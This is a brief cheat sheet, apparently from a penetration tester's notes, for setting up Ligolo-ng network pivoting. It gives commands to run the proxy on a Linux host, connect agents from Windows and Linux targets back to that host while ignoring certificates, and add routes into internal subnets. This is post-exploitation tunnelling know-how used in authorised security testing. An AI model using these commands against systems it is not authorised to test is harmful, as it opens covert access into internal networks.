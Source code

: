 
### Linux Host
```bash
sudo ip tuntap add user gareth mode tun ligolo 
sudo ip link set ligolo up
sudo ./proxy -laddr 0.0.0.0:8080 -selfcert
```
### Windows Target:

```bash
agent.exe -connect <host_ip>:8080 -ignore-cert
```
### Linux Target

```bash
agent_linux -connect <host_ip>:8080 -ignore-cert
```

Then Back on the Linux host within Ligolo-ng:

```bash
session [select session]
ifconfig
[grab subnet you want to reach]
```

New Linux terminal:

```bash
sudo ip route add x.x.x.x/xx dev ligolo
route
ip route list
```

Back in Ligolo-ng - make sure you are in the correct session

```bash
start
```
